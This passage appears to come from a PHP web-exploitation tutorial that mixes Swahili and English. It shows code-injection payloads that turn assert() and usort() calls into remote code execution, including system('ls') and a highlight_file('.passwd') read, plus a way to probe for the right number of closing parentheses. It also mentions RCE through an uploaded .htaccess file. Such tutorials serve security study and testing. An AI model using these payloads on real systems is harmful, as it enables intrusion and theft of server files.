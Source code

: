 Kazi hii ndani ya php inakuwezesha **kutekeleza msimbo ulioandikwa katika mfuatano** ili **kurudisha kweli au uongo** (na kulingana na hii kubadilisha utekelezaji). Kawaida, kigezo cha mtumiaji kitaingizwa katikati ya mfuatano. Kwa mfano:\
`assert("strpos($_GET['page']),'..') === false")` --> Katika kesi hii ili kupata **RCE** unaweza kufanya:
```
?page=a','NeVeR') === false and system('ls') and strpos('a
```
You will need to **break** the code **syntax**, **add** your **payload**, and then **fix it again**. You can use **logic operations** such as "**and" or "%26%26" or "|"**. Note that "or", "||" doesn't work because if the first condition is true our payload won't get executed. The same way ";" doesn't work as our payload won't be executed.

**Other option** is to add to the string the execution of the command: `'.highlight_file('.passwd').'`

**Other option** (if you have the internal code) is to modify some variable to alter the execution: `$file = "hola"`

### **RCE kupitia usort()**

This function is used to sort an array of items using an specific function.\
To abuse this function:
```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
usort();}phpinfo;#, "cmp");
}?>
```
You can also use **//** to comment the rest of the code.

To discover the number of parenthesis that you need to close:

* `?order=id;}//`: tunapata ujumbe wa kosa (`Parse error: syntax error, unexpected ';'`). Huenda tunakosa moja au zaidi ya mabano.
* `?order=id);}//`: tunapata **onyo**. Hii inaonekana kuwa sawa.
* `?order=id));}//`: tunapata ujumbe wa kosa (`Parse error: syntax error, unexpected ')' i`). Huenda tuna mabano ya kufunga mengi kupita kiasi.

### **RCE kupitia .httaccess**

If you can **upload** a **.htaccess**, then you can **configure** several things and even execute code (configuring that files with extension .htaccess can be **executed**).
